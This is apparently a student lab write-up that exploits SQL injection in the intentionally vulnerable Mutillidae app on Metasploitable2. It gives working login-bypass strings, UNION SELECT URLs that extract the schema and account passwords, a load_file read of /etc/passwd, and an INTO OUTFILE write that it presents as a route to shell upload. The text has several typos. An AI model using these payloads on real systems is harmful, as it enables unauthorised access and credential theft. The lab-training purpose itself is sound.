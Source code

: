 # sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/dc1534a8-a4b5-4b71-b5f2-19eabeb91224)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/c60b4dcb-19c8-4f88-b73e-7717d76fb16d)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/28df3c42-94db-4a13-b23c-ef8a31577856)
Click on the menu Login/Register and register for an account
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/bc0ed506-0996-4fb4-80ff-277a06b9d301)
Click on the link “Please register here”
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/13ea5743-e5f2-41eb-ad8b-ba099568a188)
Click on “Create Account” to display the following page:
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/091cdb28-fc1b-4b8a-9da3-a26300f79d6d)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/b6ec641a-00d1-4b59-a7dc-cc31dae011c4)
Click “Login”. The logged in page will show as below:
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/f508553c-9cbe-4170-b5ca-b0db41f2d1cb)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/7097bc23-1568-4b60-95d6-f2ca1fbbcf37)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/7c517ca4-0b50-4707-9905-a2bb590d2041)

Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/319868bc-1676-4eb0-ac12-0d25ed23da6c)

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/b55e6747-0e06-4000-881c-d765f593e128)

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/dcbe8883-d280-4dfd-9d20-a442c575d9bc)

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/97eac32b-de2c-4502-a1a9-f527abcf3200)

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/aa54b87f-ebd8-4657-a044-4fbfe0f82626)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/e9485660-493a-451a-bc69-6de2ad558069)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/99c6400d-7f39-459d-9cd6-4c9b4b62f036)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/821a8316-2e61-4ef6-ab9b-72c6b31d6435)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/d3c5d2c0-8ef8-4e6e-aeda-3cc3be51551b)
As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/f24f68ad-2173-437d-a7d1-c417e2f43506)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/4bbe2a77-a5e9-47e8-b6c7-a9e8fc540bea)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/bda2245a-db70-4fe0-8661-4668715d20ac)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/da8d0705-adbd-487e-876c-9a140ee46ed0)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/29947b36-0dcd-4b92-a603-c5e436d907da)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/ef09b29c-0b4f-48e1-ae13-68d9846b72b9)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/c7d08d18-3317-4d15-bd4b-b10f159b67ed)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/293b5568-9c34-45ea-9ac8-eb91373dbd64)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Poojithamanohar/sqlinjection/assets/119423592/74d0a529-8320-4685-abc6-5d7c24628bfc)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
